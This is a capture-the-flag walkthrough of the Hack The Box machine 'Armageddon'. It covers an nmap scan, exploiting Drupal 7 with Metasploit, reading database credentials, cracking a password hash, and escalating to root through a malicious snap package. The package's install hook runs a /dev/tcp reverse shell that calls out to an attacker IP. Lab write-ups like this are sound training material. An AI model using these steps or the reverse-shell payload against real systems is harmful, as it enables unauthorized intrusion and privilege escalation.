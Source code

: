 # namp
<pre>
# Nmap 7.91 scan initiated Sun Jun  6 09:29:41 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.233-Armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-06-06 09:29:41 SAST for 95s
Not shown: 65115 closed ports, 418 filtered ports
Reason: 65115 conn-refused and 418 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
<span style="background-color:yellow; color:000;font-weight:bold"> 22/tcp open  ssh</span>     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
<span style="background-color:yellow; color:000;font-weight:bold"> 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)</span>
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_<span style="background-color:yellow; color:000;font-weight:bold">http-generator: <span style="background-color:red; color:fff;font-weight:bold">Drupal 7</span> (http://drupal.org)</span>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 09:31:16 2021 -- 1 IP address (1 host up) scanned in 95.15 seconds
</pre>
- drupal site version 7, possible vulnerable version as drupal is teasing version 9 at this time

# web page

![](Armageddon-HTB-01.png)



![](Armageddon-HTB-02.png)

- site is a built on drupal
- theme consistent with drupal theme
- file and folder structure from robots.txt consistent with drupal site
- drupal confirmed on [[HTB-Live/10.10.10.233-armageddon/10 - nmap]] nmap

# user
![](Armageddon-HTB-03.png)

- searchsploit suggests a specific Metasploit exploit

![](Armageddon-HTB-04.gif)

- Metasploit establishes a session

![](Armageddon-HTB-05.png)

- Stabilizing shell <span style="background-color:red;color:fff;font-weight:bold;">fails</span>

![](Armageddon-HTB-06.gif)


````php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
````
- enumeration drupal site database connection settings reveals database credentials

![](Armageddon-HTB-07.gif)

- credentials were use to retrieve a hash
````
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
````

![](Armageddon-HTB-08.gif)


````bash
john thehash --show
?:booboo

1 password hash cracked, 0 left
````

- the password matching the hash was in the wordilst *rockyou.txt* (````booboo````)

![](Armageddon-HTB-09.png)


- The only account on the machine that has access to an interactive shell is ``brucetherealadmin``

![](Armageddon-HTB-10.png)

- credendtials ````brucetherealadmin:booboo```` are able to login

# root

![](Armageddon-HTB-11.png)

- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````

![](Armageddon-HTB-13.gif)

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.

![](Armageddon-HTB-13.png)

- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


![](Armageddon-HTB-14.gif)